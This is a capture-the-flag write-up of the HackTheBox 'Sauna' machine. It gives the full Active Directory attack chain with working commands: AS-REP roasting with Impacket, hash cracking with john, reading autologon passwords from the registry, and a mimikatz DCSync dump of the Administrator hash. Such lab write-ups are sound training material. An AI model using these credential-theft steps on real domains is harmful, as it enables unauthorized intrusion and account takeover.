 ```yaml
---
date: 2020-07-18 23:48:05
layout: post
title: HackTheBox Sauna Writeup
subtitle: Hackthebox Sauna Writeup.
description: >-
  in this blog i've explained how to solve Sauna machine in hackthebox
image: https://i.ibb.co/m620KrC/sauna.png
optimized_image: https://i.ibb.co/m620KrC/sauna.png
category: hackthebox
tags:
  - hackthebox
  - Sauna
author: Ahmed Fatouh
paginate: true
---
```



# []()Methodology

* Nmap-Scan
* Ldap-Enumeration
* Enum-Valid TGT with GetNpUsers from Impacket
* Login as fsmith
* catch autologin credentials from autologon registry
* Privilege Escalation

# []()Nmap-Scan:

> as always, i did nmap scan to find out which servicecs was running in this machine, i found some important ports like **80** for Microsoft IIS and **389** for ldap.

* let's start

> nmap -sS -sC -sV 10.10.10.175 -oN scan.txt 

```ruby

PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-03 08:11:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: **EGOTISTICAL-BANK.LOCAL0**., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/3%Time=5E86A997%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h59m28s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-04-03T08:14:32
|_  start_date: N/A


```

> let's check the web-page.

# []()Checking-The-Web-Page:

* from the web-page i made a wordlist which contain some usernames, i used this list for bruteforcing the smb credentials but it didn't work, but when i used the Impacket tool --> worked successfully. let's start.

* the web-page.

> ![wep-page](https://i.ibb.co/mBwYHJn/web-page.png)

* very normal page. let's scroll down now.

> ![](https://i.ibb.co/kJFw6tx/about.png)

* I was distracted in this part because I found that the names consist of two parts so we have to know how names are written or stored or how to choose the names in the AD

> i read this blog to know how to choose usernames for my wordlist [ Active Directory user naming conventions ](https://activedirectorypro.com/active-directory-user-naming-convention/)

> the way is very easy like if we have username with 2 part's like **fergus smith** the username of the AD could be f.smith, the first char of the first part and all the seconed part, you got me!.

* let's make wordlist.

* this is a simple wordlist i made it.

```ruby

f.smith
fsmith
s.coins 
scoins
h.bear
hbear
b.taylor
btaylor
s.driver
sdriver
s.kerb
skerb

```

> let's go to **/usr/share/doc/python3-impacket/examples** and use **GetNPUsers.py**

> **python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile /home/xdev05/Documents/HTB/Sauna/wordlist.txt -no-pass**
>
> ![TGT](https://i.ibb.co/VTXrYWQ/TGT.png)

* nice! let's crack this hash with john-the-ribber.

> **sudo john --wordlist=/usr/share/wordlists/rockyou.txt TGT**

```ruby

Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
1g 0:00:00:14 DONE (2020-07-17 23:51) 0.07082g/s 746388p/s 746388c/s 746388C/s Thing..Thehunter22
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

* nice! we have user and his password let's login with evil-winrm

> User: **fsmith** , Password: **Thestrokes23**

> Login as **fsmith** and read the **user flag**.
>
> ![user](https://i.ibb.co/bPz0fks/user.gif)

# []()Privilege Escalation

* after some enumeration with winPEAS.exe [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS), i foudn credentials for another user.

* let's start. i did it without WinPEAS.exe because i didn't like it.

> command: **reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"**

```ruby

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x303697c4
    ShutdownFlags    REG_DWORD    0x13
    DisableLockWorkstation    REG_DWORD    0x0
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserDefaults
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\VolatileUserMgrKey

```

* nice, we have the password for **svc_loanmgr**, let's login again with this credentials.

> Username: **svc_loanmanager**, Password:  **Moneymakestheworldgoround!**
>
> ![](https://i.ibb.co/Sn9b7G4/svc.png)

# []()Privilege Escalation --> Administrator:

> in this part, i used mimikatz to dump the **DCSyncing Hashes** and you can read about it from [here](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)

* let's upload mimikatz to the machine. you can download mimikatz from [here](https://github.com/gentilkiwi/mimikatz/releases)

> command: **.\mimikatz.exe "lsadump::dcsync /user:Administrator"**
>
> ![admin](https://i.ibb.co/C9v7BxB/admin-hash.gif)

* nice!.

# []()Root@Sauna

![admin](https://i.ibb.co/RvJ4x1K/admin.gif)

* cheers!

* Thanks for reading.

 <script src="https://www.hackthebox.eu/badge/103789"></script>

